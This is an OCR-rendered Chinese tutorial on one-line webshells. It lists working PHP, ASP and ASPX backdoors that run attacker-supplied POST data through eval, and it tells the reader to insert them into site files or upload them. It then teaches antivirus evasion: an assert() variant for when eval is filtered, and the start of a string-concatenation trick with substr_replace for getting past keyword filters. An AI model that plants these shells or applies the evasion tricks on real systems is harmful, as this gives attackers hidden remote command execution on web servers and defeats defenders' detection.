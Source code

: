 #### <font style="color:rgb(79, 79, 79);">常见形式：</font>
<font style="color:rgb(77, 77, 77);">常见的一句话木马：</font>

```plain
php的一句话木马： <?php @eval($_POST['pass']);  
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

<font style="color:rgb(77, 77, 77);">我们可以直接将这些语句插入到网站上的某个asp/aspx/php文件上，或者直接创建一个新的文件，在里面写入这些语句，然后把文件上传到网站上即可。</font>

#### <font style="color:rgb(79, 79, 79);">基本原理：</font>
<font style="color:rgb(77, 77, 77);">首先我们先看一个原始而又简单的php一句话木马：</font>

```plain
   <?php @eval($_POST['cmd']); ?>
```

<font style="color:rgb(77, 77, 77);">这是php的一句话后门中最普遍的一种。它的工作原理是：</font>  
<font style="color:rgb(77, 77, 77);">首先存在一个名为'cmd'的变量，'cmd'的取值为HTTP的POST方式。Web服务器对'cmd'取值以后，然后通过eval()函数执行'cmd'里面的内容。</font>

#### <font style="color:rgb(79, 79, 79);">一句话木马简单免杀</font>
<font style="color:rgb(77, 77, 77);">从上面的演示中可以看到一句话木马的简单、高效，但就是因为其过于简单，查杀起来也很方便，所以要对其进行变形，让它不容易被发现。以下是几个免杀方法：</font>

##### <font style="color:rgb(77, 77, 77);">一、assert()</font>
如果过滤了eval可以使用assert绕过

<font style="color:rgb(85, 86, 102);background-color:rgb(238, 240, 244);">assert() 会检查指定的 assertion 并在结果为true时执行</font>

```php
<?php @assert($_POST['cmd']); ?>
```

##### 二、字符串拼接
当过滤了<font style="color:#601BDE;">eval assert</font><font style="color:#000000;">两个关键字时，我们可以使用字符串拼接的方式 </font><font style="color:rgb(77, 77, 77);">介绍substr_replace()函数</font>

```php
substr_replace(string,replacement,start,length)
```

|  参数 | 描述 |
| --- | --- |
| <font style="color:rgb(79, 79, 79);">string</font> | <font style="color:rgb(79, 79, 79);">必需，规定检查的字符串。</font> |
| <font style="color:rgb(79, 79, 79);background-color:rgb(247, 247, 247);">replacement</font> | <font style="color:rgb(79, 79, 79);background-color:rgb(247, 247, 247);">必需，规定要插入的字符串。</font> |
| start | <font style="color:rgb(79, 79, 79);">必需，规定在字符串的何处开始替换。若为0，从头开始。</font> |
| length | <font style="color:rgb(79, 79, 79);background-color:rgb(247, 247, 247);">可选。规定要替换多少个字符。默认是与字符串长度相同。</font> |

